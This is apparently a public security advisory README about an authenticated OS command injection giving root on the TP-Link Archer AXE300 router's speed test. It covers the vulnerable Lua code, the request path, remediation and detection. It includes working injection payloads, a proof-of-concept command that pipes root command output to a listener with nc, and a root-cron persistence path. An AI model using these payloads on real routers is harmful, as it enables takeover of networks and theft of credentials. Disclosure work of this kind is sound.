

# TP-Link Archer AXE300 — authenticated command injection (root RCE) in the ISP Speed Test



[](#scoring)
[](https://cwe.mitre.org/data/definitions/78.html)
[](#am-i-affected)
[](#platform-notes)
[](https://www.tp-link.com/us/support/faq/4935/)
[](#summary)
[](LICENSE)

**`spdt_server` is concatenated into a shell command string and executed as `root` on the router.**

A remote attacker holding the Archer AXE300's admin web UI credential can send a single HTTP
request to the router's own JSON API and run arbitrary shell commands as root — full compromise
of the device and, because the router is the network gateway, of everything behind it. The
flaw is CWE-78 (OS command injection) in the vendor's LuCI model layer, present in the
**latest shipping firmware, 1.0.11 Build 20241115**, on a model that is **not** covered by
TP-Link's own command-injection advisory.

> **Disclosure status.**
> Published publicly in this repository on **2026-10-24**, before the vendor was notified. The finding was then reported to TP-Link's Product Security Team at security@tp-link.com on **2026-10-26**. As of this update, TP-Link has published no fix, advisory, or CVE for this model or code path. The advisory summary is also filed as a pinned issue:
> [#1 — Authenticated OS command injection (root RCE) in the ISP Speed Test](https://github.com/vindeckyy/tp-link-archer-axe300-command-injection-rce/issues/1).
>
> The test was performed on the owner's own hardware with the owner's explicit permission and
> credentials. The device was returned to its original state afterwards — the verification is
> recorded in [`REPORT.md`](REPORT.md) §6 and [`evidence/device-state-after.txt`](evidence/device-state-after.txt).

**Author:** [@vindeckyy](https://github.com/vindeckyy) · **Date:** October 2026 · **License:** MIT (code), see [LICENSE](LICENSE)

**Legal notice:** Authorized research on hardware you own. No warranty, no liability, no
authorization to reach devices you do not own. Read the full
[Legal Disclaimer and Terms of Use](DISCLAIMER.md) before use.

**In one line:** one authenticated request → root shell on the gateway → every LAN host,
every stored credential, every packet.

---

## Contents

- [Summary](#summary)
- [Am I affected?](#am-i-affected)
- [The vulnerability](#the-vulnerability)
- [Full request path](#full-request-path)
- [Reproduction](#reproduction)
- [Impact and threat model](#impact-and-threat-model)
- [Scoring](#scoring)
- [Secondary findings](#secondary-findings)
- [Surfaces tested and found clean](#surfaces-tested-and-found-clean)
- [The same bug class across TP-Link's line](#the-same-bug-class-across-tp-links-line)
- [Remediation](#remediation)
- [Detection and incident response](#detection-and-incident-response)
- [Frequently asked questions](#frequently-asked-questions)
- [Platform notes](#platform-notes)
- [Repository layout](#repository-layout)
- [References](#references)

---

## Summary

| | |
|---|---|
| **Vulnerability** | OS command injection → arbitrary command execution as **root** |
| **Product** | TP-Link Archer AXE300 (AXE16000 Quad-Band Wi-Fi 6E, two 10G ports) |
| **Component** | ISP Speed Test, `spdt_server` request field |
| **Endpoint** | `POST /cgi-bin/luci/;stok=<token>/admin/speedtest?form=speedtest`, `operation=start` |
| **Vulnerable code** | `/usr/lib/lua/luci/model/spdt.lua` → `SPEED_TEST_INST:start_spt(form)` |
| **Firmware tested** | 1.0.11 Build 20241115 rel.76431(5553) — the current US release |
| **Privilege obtained** | `uid=0(root)` |
| **Authentication** | An admin web UI session (session token **plus** the `sysauth` cookie) |
| **User interaction** | None |
| **CVSS 3.1** | `AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:H` → **7.2 (High)** |
| **CVSS 4.0** | `AV:N/AC:L/AT:N/PR:H/UI:N/VC:H/VI:H/VA:H/SC:L/SI:L/SA:L` → **8.5 (High)** |
| **CWE** | CWE-78 (OS command injection) → CWE-88 (argument injection) → CWE-269 (improper privilege management) |

The base score reflects the credential requirement. The *practical* severity is higher: the
affected device is the network edge, so a single injection yields the gateway itself — every
packet of every LAN client, every stored credential, and every IoT device behind it.

**Proof in one command:**

```console
$ python3 poc/axe300_spdt_poc.py --host 192.168.0.1 --password '<admin-password>' --sleep 5
[*] logging in to 192.168.0.1 ...
[+] authenticated, session token acquired (32 chars)
[*] baseline request: 0.060 s
[+] injected 'sleep 5': request returned after 5.066 s (baseline was 0.060 s)
[+] command injection confirmed: the response time tracks the requested sleep duration.
```

**Proof with real command output, retrieved over the LAN:**

```console
$ python3 poc/axe300_spdt_poc.py --host 192.168.0.1 --password '<admin-password>' \
      --cmd '(id; uname -a; head -2 /etc/passwd) | nc 192.168.0.99 4530'
```

Received on the test host:

```
uid=0(root) gid=0(root)
Linux Archer_AXE300 4.19.183 #1 SMP PREEMPT Thu Nov 23 20:35:02 CST 2023 aarch64 GNU/Linux
root:x:0:0:root:/root:/bin/ash
sftpadmin:x:1001:0:sftpadmin:/var:/bin/false
```

---

## Am I affected?

| | |
|---|---|
| **Affected model** | Archer AXE300 / AXE16000, hardware **V1** (V1.6 and V1.8 ship the same firmware) |
| **Affected firmware** | 1.0.11 Build 20241115 rel.76431(5553) — and, as far as verified, earlier builds on the same code path |
| **Latest available firmware** | 1.0.11 Build 20241115, published 2024-12-05. **There is no fixed firmware for this model.** |
| **Fixed by the vendor?** | **No.** The AXE300 does not appear in TP-Link's advisory [FAQ 4935](https://www.tp-link.com/us/support/faq/4935/), which lists the fixed builds for Archer BE230, BE3600, AXE75, AX73 and Deco BE25 |
| **Who is exposed** | Anyone whose admin web UI credential is known, phished, reused, or brute-forced |
| **Not exposed** | Anyone without the admin credential — the endpoint is behind a valid session, and the unauthenticated admin API returns empty bodies |

The 1.0.11 release note says "Enhanced system security". The injection is still there.

**Check yourself in ten seconds.** Log in to the router, open **Advanced → Network → Internet →
Speed Test**, and watch what happens when a URL is submitted: the request field `spdt_server`
is passed to `sys.fork_call()` unmodified, so any shell metacharacter in it is executed. Do
not test this on a device you depend on unless you are authorised to.

---

## The vulnerability

### Root cause

`/usr/lib/lua/luci/model/spdt.lua`, function `SPEED_TEST_INST:start_spt(form)`:

```lua
    if form then
        spdt_url = form.spdt_server        -- attacker-controlled, unvalidated
    end

    sys.fork_call("echo " .. spdt_url .. " > /tmp/log/spdt_url")
    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
```

`spdt_url` comes straight from the request body field `spdt_server`. It is concatenated into
a shell command string with **no quoting, no escaping and no validation**, and `sys.fork_call`
executes that string through `/bin/sh -c`.

Three properties make this a direct root shell rather than a parsing curiosity:

1. **The sink runs before the parser.** The code below the `fork_call` parses the URL into
   `host`, `port` and `file_name` and rejects malformed values — but that parsing guards the
   *speed test* command, not the injection. The `fork_call` has already executed by then, so a
   payload that the parser would reject still runs.
2. **The router daemon is root.** `uhttpd` and the LuCI dispatchers run as root, so the forked
   shell is root. Verified: `uid=0(root) gid=0(root)`.
3. **The value is not a URL parser's problem.** `spdt_server` is documented as a URL, but the
   only consumer of that URL is the shell string above.

### Why it is exploitable

`sys.fork_call` → `/bin/sh -c "<string>"`. The classic `;` separator is enough:

```
spdt_server = http://127.0.0.1:9;sleep 5
```

expands to

```sh
echo http://127.0.0.1:9;sleep 5 > /tmp/log/spdt_url
```

The `sleep` runs as a root shell command. No escaping of quotes is needed because the value
is not quoted in the first place.

### The redirect subtlety (worth knowing before you build a PoC)

The vulnerable line ends in `> /tmp/log/spdt_url`. The shell attaches that redirection to the
**last** command of the injected payload, not to the `echo`. Observed on the device:

| Injected `spdt_server` | Result |
|---|---|
| `http://127.0.0.1:9;id > /tmp/out` | `/tmp/out` is created but **empty** — `id`'s stdout went to `/tmp/log/spdt_url` |
| `http://127.0.0.1:9;id > /tmp/out ; true` | `/tmp/out` contains `uid=0(root) gid=0(root)` |
| `http://127.0.0.1:9;cat /tmp/log/spdt_url \| nc <host> <port>` | nothing arrives — the redirect truncates the file before `cat` reads it |

So a reliable payload either ends with `; true` (parking the redirect on a harmless command)
or pipes straight to a listener with `; true` appended. The included PoC appends it
automatically.

---

## Full request path

```
browser / PoC
   │  POST /cgi-bin/luci/;stok=<token>/admin/speedtest?form=speedtest
   │  Cookie: sysauth=<session id>
   │  body: sign=<RSA signature>&data=<AES-CBC(base64 form)>
   ▼
uhttpd
   ▼
/usr/lib/lua/luci/dispatcher.lua
   │  sess = luci.http.getcookie("sysauth")        ← session lookup
   │  sdat = sauth.read(sess)
   │  elseif ctx.urltoken.stok == sdat.token then  ← token cross-check
   │      remote = not ctypes.check_ip_in_lan(ipaddr)
   │      if remote == sdat.remote then ... user = sdat.user
   ▼
/usr/lib/lua/luci/service.lua
   │  analyze_signature(sig, hasaeskey)   → aeskey, aesiv, hash, seq
   │  check_seqnum(seqnum, datalen, islogin)
   │  decrypt body with AES-128-CBC using the session's key
   ▼
/usr/lib/lua/luci/controller/admin/speedtest.lua
   │  dispatch_tbl.speedtest["start"] = {cb = start_speedtest}
   ▼
/usr/lib/lua/luci/model/spdt.lua
   │  spdt_url = form.spdt_server
   │  sys.fork_call("echo " .. spdt_url .. " > /tmp/log/spdt_url")   ← INJECTION
   ▼
/bin/sh -c  →  root shell
```

The authentication handshake is documented in full, with redacted values, in
[`evidence/session-auth-requirement.txt`](evidence/session-auth-requirement.txt). One detail
there cost this research more time than the vulnerability itself: **the session token in the
URL is not sufficient**. The router resolves the session from the `sysauth` cookie that the
login response sets. A client that drops the cookie still gets HTTP 200 — with an empty body
(`{"data":""}`), which reads as a broken protocol rather than a missing session.

---

## Reproduction

### Requirements

- Python 3.9+ and `cryptography` (`pip install cryptography`)
- A device you own, or one you are explicitly authorised to test
- The admin web UI credential

### Quick start

```console
$ pip install cryptography
$ git clone https://github.com/vindeckyy/tp-link-archer-axe300-command-injection-rce.git
$ cd tp-link-archer-axe300-command-injection-rce
$ python3 poc/axe300_spdt_poc.py --host 192.168.0.1 --password '<admin-password>' --sleep 5
```

The PoC is a single self-contained file with no dependencies beyond `cryptography`, so
copying `poc/axe300_spdt_poc.py` out of this repository is enough to reproduce everything.

### PoC options

```
--host        target address (default 192.168.0.1)
--password    web UI password (or set AXE300_PASSWORD)
--username    web UI account (default admin)
--sleep N     timing proof: inject `sleep N` and measure (default 5)
--cmd CMD     inject an arbitrary command instead of the timing proof
--insecure    skip the baseline measurement
```

`--sleep` proves execution without touching anything: the response time tracks the requested
delay. `--cmd` runs an arbitrary command; the API does not return command output, so confirm
the effect on the device (write it to a file, or pipe it to a listener).

### Verification matrix

| Payload | Observed | Conclusion |
|---|---|---|
| `http://127.0.0.1:9` | 59–62 ms | baseline |
| `http://127.0.0.1:9;sleep 2` | 2062 ms | execution, linear with delay |
| `http://127.0.0.1:9;sleep 5` | 5063 ms | execution |
| `http://127.0.0.1:9;sleep 8` | 8061 ms | execution |
| `(id; uname -a; head -2 /etc/passwd) \| nc <host> <port>` | `uid=0(root)` etc. | arbitrary command, output retrieved |
| `test $(id -u) -eq 0` | delay | session is root |
| `test -r /etc/shadow` | delay | root can read the shadow file |

### Manual reproduction through the web UI

If you prefer to drive the router's own interface:

1. Log in at `http://192.168.0.1/` with the admin credential.
2. Read the session token from the page (`$.su.url.stok`) or from any
   `/cgi-bin/luci/;stok=<token>/…` request. The `sysauth` cookie comes with it.
3. `POST /cgi-bin/luci/;stok=<token>/admin/speedtest?form=speedtest` with the form fields
   the UI sends: `operation=start` and `spdt_server` set to the payload.

The request body must be encrypted the way the UI encrypts it — AES-128-CBC plus an
RSA-signed `sign` parameter — which is exactly what the PoC implements.

### A note on rate limiting

The router counts failed logins and locks the account; a failed login returns
`{"errorcode":"login failed", … "failureCount":3, "attemptsAllowed":7}`. Do not loop the PoC
against a router you depend on.

---

## Impact and threat model

**What an attacker needs:** one admin web UI credential, and a network path to port 80/443.

**What an attacker gets:** a root shell on the router.

**What that means in practice:**

- **Read and rewrite every setting.** UCI configuration under `/etc/config`, including the
  stored administrator credential and the Wi-Fi PSKs.
- **Become the network's man in the middle.** The device is the gateway: DNS, DHCP, parental
  controls and inter-VLAN rules are all under the attacker's control, and traffic can be
  silently redirected.
- **Persist.** The A/B flash layout means a custom image can be written to the inactive slot
  and survive reboots (see [Platform notes](#platform-notes)).
- **Pivot.** Every host behind the router — laptops, phones, cameras, doorbells — is one hop
  away, and the router can be used to attack them or to attack the upstream provider.
- **Denial of service.** A bricked router takes the whole LAN offline; the same applies to
  the firmware-update path, which is a single write away.

**What an attacker without the credential does *not* get:** nothing. The endpoint is behind a
valid session, the `stok` cross-check holds, and the unauthenticated admin API returns empty
bodies. This is an authenticated vulnerability, not a pre-auth one — but the credential it
requires is the credential the owner already types into the same page, and credential
phishing, reuse, or a brute force against a weak password is all it takes to reach root.

**Severity in context:** CVSS 3.1 base 7.2 (High) reflects the admin requirement. For a
consumer router, most people would call this Critical, because the blast radius is the entire
network rather than one host.

---

## Scoring

**CVSS 3.1 base score: 7.2 (High)**

```
CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:H
```

| Metric | Value | Why |
|---|---|---|
| AV | Network | The endpoint is the device's own HTTP API on port 80/443 |
| AC | Low | One request; no race, no special conditions |
| PR | High | Requires an admin web UI session |
| UI | None | No user action beyond the attacker authenticating |
| S/U | Unchanged | The device is a single security authority |
| C/I/A | High | Root shell: read and write every setting, alter the datapath, deny service |

**CVSS 4.0 base score: 8.5 (High)**

```
CVSS:4.0/AV:N/AC:L/AT:N/PR:H/UI:N/VC:H/VI:H/VA:H/SC:L/SI:L/SA:L
```

TP-Link's advisory, [FAQ 4935](https://www.tp-link.com/us/support/faq/4935/), scores the same authenticated command-injection family at CVSS 4.0 8.5 with `CVSS:4.0/AV:A/AC:L/AT:N/PR:H/UI:N/VC:H/VI:H/VA:H/SC:L/SI:L/SA:L`. The exception is CVE-2026-22229, which uses `AV:N` and scores 8.6. This report uses `AV:N` because the admin interface is reachable over IP, so attack vector is the only metric that differs from the family vector. FAQ 4935 publishes CVSS 4.0 values only, so this report makes no CVSS 3.1 comparison with [CVE-2026-22226](https://nvd.nist.gov/vuln/detail/CVE-2026-22226).

The base score reflects the credential requirement. The practical severity is higher, because
the affected device is the gateway for every host on the network, so the compromise is not
bounded by the router itself.

---

## Secondary findings

### The web UI password is also the SSH password

The firmware ships a patched dropbear already listening on **TCP/20001**:

```
/usr/sbin/dropbear -P /var/run/dropbear.1.pid -p 20001 -C -6 -B
```

`-C` selects *Web Server account login*: authentication is delegated to the router's web UI
account rather than to `/etc/shadow`, so **the admin web password is also the SSH password**.
`-6` disables IPv6 and `-B` permits blank passwords. `/sbin/knock_functions.sh` normally
installs an iptables REJECT rule for `dport 20001`, so the service is unreachable unless the
client IP is allow-listed — but that rule is one `iptables -D` away, and the attacker has
root by then.

### Root escalation from the non-root admin account

`/etc/group` grants supplementary group 0 to the web account:

```
root:x:0:admin,sftpadmin
```

`/etc/hotplug.d/iface` is group-writable, and cron runs `/bin/sh /etc/hotplug.d/iface/99-wportal`
**as root every minute**. Appending a line to that script from a shell that holds group 0
produces a root-owned file containing `uid=0(root) gid=0(root) groups=0(root)`.

This is reachable after Finding 1 (root already obtained) and is therefore best read as
**impact amplification and a persistence path** rather than an independent vulnerability. It
matters because it shows that the vendor's own hardening of the `admin` account — shell
`/bin/false`, non-existent home directory, `/root` mode 0700, and a group-writable root cron
script — does not survive contact with an attacker who has any foothold on the device.

### Other observations

- `/admin/syslog?form=mail` returns SMTP credentials (`smtp_server`, `user`, `password`) to
  the browser in cleartext.
- The web UI ships `config/modules.json` entries for features the backend does not implement
  on this build (Wake-on-LAN, TR-069/CWMP), and a `modules/homeShield` entry although the
  Avira `tmp_avira` owner check always fails.
- The speed-test CGI response body contains a second, embedded HTTP response
  (`Status: 200 OK` plus headers and body) — a response-splitting/parsing smell.
- The firmware image is encrypted (uniform ~8.0 bits/byte entropy), so static analysis needs
  either the vendor key or live-device analysis. Live analysis was used here.

---

## Surfaces tested and found clean

Recorded so they are not re-tested.

| Surface | Endpoint | Result |
|---|---|---|
| Diagnostics ping / traceroute | `/admin/diag?form=diag` (`ipaddr_ping`, `ipaddr_trace`) | Not injectable. The target is parsed, not shelled. |
| Diagnostics numeric fields | `count`, `pktsize`, `ttl` | Truncated with `atoi`-style parsing; `count=1;id` is rejected outright. |
| NTP server | `/admin/time?form=settings` (`ntp_svr1`, `ntp_svr2`) | Not injectable; the value is normalised on `;`. |
| CVE-2024-53375 (`tmp_avira`) | `/admin/smart_network?form=tmp_avira`, `operation=getInsightSites` | Handler present but gated: every `ownerId` returns `{"errorcode":"Invalid Owner Id","success":false}`. Not exploitable without a valid owner ID. |
| `locale` country write | `/locale?form=country` | `operation=write` returns `no such callback` to unauthenticated callers. |
| Wake-on-LAN | `/admin/wol?form=wake_up` | Not served by this build (`Not Found`). |
| TR-069 / CWMP | `/admin/cwmp?form=cwmp_setting` | Not served by this build (`Not Found`). |
| Unauthenticated admin API | `/admin/*` without a valid session | Returns `{"data":""}`; the token and cookie checks hold. |
| Default credentials | `login?form=keys` | Not default — a real RSA keypair is provisioned. |
| Avira services | — | Installed but **not running** on this unit. |

---

## The same bug class across TP-Link's line

TP-Link publishes its own command-injection advisories as CNA. The pattern here — a LuCI
model concatenating request data into a `sys.fork_call()` string — is the same class as the
issues below, which are fixed in specific firmware builds. They are listed because they
establish that this is a recurring class in this codebase, and because the AXE300's ISP Speed
Test is not among the covered paths.

| CVE | Component | Affected models | Fixed in |
|---|---|---|---|
| [CVE-2026-0630](https://nvd.nist.gov/vuln/detail/CVE-2026-0630) | Web Modules | Archer BE230 v1.2, Archer AXE75 v1.0 | BE230 < 1.2.4 Build 20251218; AXE75 < 1.5.6 Build 20260623 |
| [CVE-2026-0631](https://nvd.nist.gov/vuln/detail/CVE-2026-0631) | VPN Modules | Archer BE230 v1.2, BE3600 v1 | see FAQ 4935 |
| [CVE-2026-22221](https://nvd.nist.gov/vuln/detail/CVE-2026-22221), [-22223](https://nvd.nist.gov/vuln/detail/CVE-2026-22223) | VPN Modules / VPN connection | BE230, BE3600 | see FAQ 4935 |
| [CVE-2026-22224](https://nvd.nist.gov/vuln/detail/CVE-2026-22224) | Cloud Communication | BE230 | see FAQ 4935 |
| [CVE-2026-22225](https://nvd.nist.gov/vuln/detail/CVE-2026-22225) | VPN Connection Service | BE230, AXE75 | see FAQ 4935 |
| [CVE-2026-22226](https://nvd.nist.gov/vuln/detail/CVE-2026-22226) | VPN Server Configuration | BE230 v1.2, AX73 v2 | BE230 < 1.2.4; AX73 < 1.3.1 Build 20260430 |
| [CVE-2026-22227](https://nvd.nist.gov/vuln/detail/CVE-2026-22227) | Configuration Backup Restoration | BE230 | see FAQ 4935 |
| [CVE-2026-22229](https://nvd.nist.gov/vuln/detail/CVE-2026-22229) | Import of Crafted Configuration File | BE230, Deco BE25 | BE230 < 1.2.4; BE25 <= 1.1.1 Build 20250822 |
| [CVE-2024-21833](https://nvd.nist.gov/vuln/detail/CVE-2024-21833) | Unauthenticated command execution | Archer AX3000, AX5400, AXE75, Deco X50, XE200 | firmware prior to Build 20231115 |
| [CVE-2023-1389](https://nvd.nist.gov/vuln/detail/CVE-2023-1389) | Command injection (via a web endpoint) | Archer AX21 | see advisory |

TP-Link's consolidated advisory for the 2026 family is
**[Security Advisory on Authenticated Command Injection Vulnerabilities — FAQ 4935](https://www.tp-link.com/us/support/faq/4935/)**
(last updated 2026-09-18). It states: *"Each CVE represents a distinct OS command injection
issue in a separate code path, and is therefore tracked under an individual CVE ID."*

**The Archer AXE300 is not listed there, and no fixed firmware for it exists.**

---

## Remediation

**For the vendor**

1. **Never build a shell command by concatenation.** Pass an argument vector, or validate
   against a strict allowlist such as
   `^https?://[A-Za-z0-9._-]+(:[0-9]{1,5})?/[A-Za-z0-9]+$`.
2. **Audit every call site.** The bug class is `fork_call("…" .. <request data> .. "…")`.
   `grep -rn 'fork_call\|os.execute' /usr/lib/lua/luci/model/` and review every hit that
   embeds request data. This one call site is an instance of that pattern, not a one-off.
3. **Shell-quote at minimum**, or better, use the `nixio` APIs that take arguments rather than
   a command string.
4. **Do not share a credential between the web UI and SSH**, and do not ship a patched
   dropbear that authenticates against the web account and accepts only `ssh-rsa`.
5. **Keep interactive-capable accounts out of the root group**, and remove group-write
   permission from executables and from scripts that root executes (cron, hotplug, init).
6. **Do not return stored credentials to the browser in cleartext** (the syslog SMTP case).

**Until a firmware update exists**

- Restrict admin access to the LAN, and never expose the management interface to the
  internet.
- Use a long, unique admin password, and change it if it has ever been reused elsewhere.
- Leave the ISP Speed Test disabled if you do not need it.
- Watch for the indicators below.

---

## Detection and incident response

**On the device**

| Indicator | Where to look |
|---|---|
| Commands executed via the speed test | syslog entries around `spdt` / `speedtest` activity |
| Unexpected processes | `ps` — anything outside the vendor's expected list |
| Modified web UI files | `/usr/lib/lua/luci/model/`, `/www/` (ramfs: compare before and after reboot) |
| Changed account files | `/etc/passwd`, `/etc/shadow` — `admin`'s shell and home directory |
| Added keys or a second dropbear | `/etc/dropbear/`, `/root/.ssh/` |
| Extra listeners | `netstat -ltnp` — especially port 22 or an additional dropbear instance |
| Shell metacharacters in the speed-test log | `/tmp/log/spdt_url` |
| Non-default environment variables | `nvrammanager -s`, and the boot environment in `/data` |

**Network side**

- DNS answers that do not come from the configured resolvers.
- Management UI sessions that are not yours.
- Unexpected outbound SSH to TCP/20001 from the router.

**Recovery**

Revert the configuration files, remove added keys and processes, and flash a known-good
firmware image. Because `/etc` is a ramfs on this platform a reboot clears most
filesystem-level changes — but not anything written to `/data`, `/tp_data`, `/user_data1`,
`/user_data2`, or to flash.

---

## Frequently asked questions

**Is the TP-Link Archer AXE300 vulnerable to remote code execution?**
Yes. Firmware 1.0.11 Build 20241115 — the current release — contains an OS command injection
in the ISP Speed Test module that yields a root shell from a single authenticated HTTP
request.

**Do I need the admin password?**
Yes. The vulnerable endpoint requires a valid admin web session: the session token in the URL
*and* the `sysauth` cookie. Without them the router answers HTTP 200 with an empty body and
nothing happens.

**Is it pre-authentication?**
No. It is an authenticated vulnerability. That is why the severity discussion focuses on what
the admin credential is worth: it is the same credential the owner types into the same page,
and on this device it is also the SSH password.

**What is the impact of the injection?**
Arbitrary commands as `uid=0(root)`: read and modify all configuration including stored
credentials, intercept and alter all LAN traffic, install persistence, or brick the device.

**Which firmware versions are affected?**
At least 1.0.11 Build 20241115, which is the latest published US firmware for Archer AXE300
V1. The vulnerable code path is the same `sys.fork_call` pattern found across the vendor's LuCI
model layer. No fixed firmware exists for this model.

**Has TP-Link been notified?**
Yes. The repository was published on 2026-10-24, before the vendor was notified. The report was then sent to TP-Link's Product Security Team at security@tp-link.com on 2026-10-26. TP-Link's own advisory for the equivalent class on other models is FAQ 4935.

**Is there a CVE for this?**
Not as of this update. No CVE has been assigned or published, and the AXE300 is absent from TP-Link's advisory list. The report asks TP-Link whether it will assign one. The reproduction in [`REPORT.md`](REPORT.md) is complete.

**How do I check whether my device is vulnerable without exploiting it?**
Open **Advanced → Network → Internet → Speed Test** and read the request in your browser's
developer tools: the `spdt_server` field is sent unvalidated to a shell. Do not inject
anything on a device you depend on unless you are authorised to.

**Can I fix it without a firmware update?**
Not the injection itself. You can reduce exposure: keep admin access on the LAN only, use a
long unique password, disable remote management, and avoid the Speed Test feature.

**Does the proof of concept need the router's browser session?**
No. `poc/axe300_spdt_poc.py` implements the whole handshake from scratch — RSA-encrypted
password, AES-CBC request body, RSA signature, session cookie — and needs only the admin
credential.

---

## Platform notes

The platform is more open than a consumer router usually is, which is worth recording for
anyone continuing the research. Full detail in
[`evidence/device-internals.txt`](evidence/device-internals.txt).

- **Broadcom BCM4908, OpenWrt-derived userspace.** `/etc/openwrt_release` reports
  `model_brcm_bcm490x/generic`, and `opkg` is present.
- **A/B flash slots with rollback metadata.** `metadata1`/`metadata2` hold
  `COMMITTED=1 / VALID=1,2 / SEQ=3,2`: slot 1 is committed, slot 2 is a valid older image.
  A custom image can be written to the inactive slot.
- **A flash programmer in userspace.** `/usr/bin/nvrammanager` exposes
  `-r/-w/-e -p <partition>`, `-u` (upgrade), `-c` (check), `-d` (derive) and `-s` (show),
  and can write the bootloader environment (`nvram set …; nvram commit`).
- **The vendor's own upgrade path skips its own check.** `fmup.lua` calls
  `nvrammanager -c` and then `/sbin/sysupgrade`, but `/lib/upgrade/platform.sh`'s
  `platform_check_image()` is a no-op, so calling `sysupgrade` directly bypasses the
  supported-model and anti-downgrade checks.
- **A documented bypass lever in the bootloader.** The loader contains
  `signature`, `verify`, `decryption` and both `test_mode=enable` and `test_mode=disable`,
  while the kernel command line carries `test_mode=disable`.
- **`/etc` is a ramfs.** Every edit to `/etc`, `/usr/lib/lua` and `/www` is lost on reboot;
  durable state lives in `/data`, `/tp_data`, `/user_data1`, `/user_data2`.
- **A serial console** on `ttyAMA0` at 115200 reaches the bootloader prompt.
- **Third-party firmware is officially contemplated.** TP-Link's download pages state that
  "some official firmware of TP-Link products can be replaced by the third party firmware such
  as DD-WRT", with the warranty voided.

For completeness, a measured performance profile of the unit — CPU headroom, the DNS cache
being disabled in the shipped configuration, bufferbloat measurements and the tunables that
were changed — is in
[`evidence/performance-profile.txt`](evidence/performance-profile.txt). That file is **not**
part of the disclosure; it is included because it documents the platform honestly and because
it explains why "free some CPU" is not the lever it appears to be on this hardware.

---

## Repository layout

| Path | Contents |
|---|---|
| [`REPORT.md`](REPORT.md) | The technical report: vulnerable code, both proof methods, impact, remediation, negative results, and the device cleanup record |
| [`poc/axe300_spdt_poc.py`](poc/axe300_spdt_poc.py) | Standalone proof of concept. Speaks the router's own JSON API (RSA-encrypted password, AES-CBC encrypted body, RSA signature) and proves the injection with a timing oracle or an arbitrary command |
| [`evidence/vulnerable-spdt.lua.txt`](evidence/vulnerable-spdt.lua.txt) | The extracted vulnerable Lua source and the client-side code that reaches it |
| [`evidence/session-auth-requirement.txt`](evidence/session-auth-requirement.txt) | The API handshake the PoC depends on, with all live values redacted |
| [`evidence/device-internals.txt`](evidence/device-internals.txt) | Flash layout, A/B metadata, the `nvrammanager` interface, the upgrade path, bootloader strings |
| [`evidence/performance-profile.txt`](evidence/performance-profile.txt) | Measured performance profile and the tunables that were changed |
| [`evidence/device-state-after.txt`](evidence/device-state-after.txt) | Post-cleanup device state, with notes |
| [`SECURITY.md`](SECURITY.md) | Disclosure status, what to do if you run the affected firmware, and how to report |
| [`assets/social-preview.png`](assets/social-preview.png) | The advisory banner used as the link-preview card |
| [`DISCLAIMER.md`](DISCLAIMER.md) | Legal disclaimer and terms of use |
| [`LICENSE`](LICENSE) | MIT, for the code in this repository |

### Redaction

Every value that identifies the tested unit or authenticates to it has been removed from this
repository and from its history: the admin password, the `md5("admin" + password)` session
hash, the session secret, AES key and IV, session token, session id, client MAC and the
test host's address. Where the shape of a value matters to the explanation, a placeholder
with the format is shown instead.

---

## References

**Vendor**

- [Archer AXE300 firmware downloads](https://www.tp-link.com/us/support/download/archer-axe300/v1/#Firmware) — 1.0.11 Build 20241115 is the latest US release
- [TP-Link Security Advisory on Authenticated Command Injection Vulnerabilities (FAQ 4935)](https://www.tp-link.com/us/support/faq/4935/) — the equivalent class on other models, with fixed builds
- [Archer AXE300 GPL source code](https://www.tp-link.com/resources/gpl/AXE300v1_GPL.tar.gz)
- [How to find your hardware version](https://www.tp-link.com/us/support/faq/46/)

**CVE records**

- [CVE-2026-0630](https://nvd.nist.gov/vuln/detail/CVE-2026-0630) · [CVE-2026-0631](https://nvd.nist.gov/vuln/detail/CVE-2026-0631) · [CVE-2026-22221](https://nvd.nist.gov/vuln/detail/CVE-2026-22221) · [CVE-2026-22223](https://nvd.nist.gov/vuln/detail/CVE-2026-22223) · [CVE-2026-22224](https://nvd.nist.gov/vuln/detail/CVE-2026-22224) · [CVE-2026-22225](https://nvd.nist.gov/vuln/detail/CVE-2026-22225) · [CVE-2026-22226](https://nvd.nist.gov/vuln/detail/CVE-2026-22226) · [CVE-2026-22227](https://nvd.nist.gov/vuln/detail/CVE-2026-22227) · [CVE-2026-22229](https://nvd.nist.gov/vuln/detail/CVE-2026-22229)
- [CVE-2024-21833](https://nvd.nist.gov/vuln/detail/CVE-2024-21833) — unauthenticated command execution in TP-Link Archer/Deco products
- [CVE-2023-1389](https://nvd.nist.gov/vuln/detail/CVE-2023-1389) — Archer AX21 command injection

**Weaknesses and background**

- [CWE-78: Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html)
- [CWE-88: Improper Neutralization of Argument Delimiters in a Command](https://cwe.mitre.org/data/definitions/88.html)
- [CWE-269: Improper Privilege Management](https://cwe.mitre.org/data/definitions/269.html)
- [CVSS v3.1 specification](https://www.first.org/cvss/v3.1/specification-document) · [CVSS v4.0 specification](https://www.first.org/cvss/v4.0/specification-document)
- [OpenWrt LuCI dispatcher](https://github.com/openwrt/luci) — the `luci/sauth.lua` and `luci/dispatcher.lua` files referenced in this report
- [OpenWrt `bcm4908` target](https://github.com/openwrt/openwrt/tree/main/target/linux/bcm4908)

---

## Related research

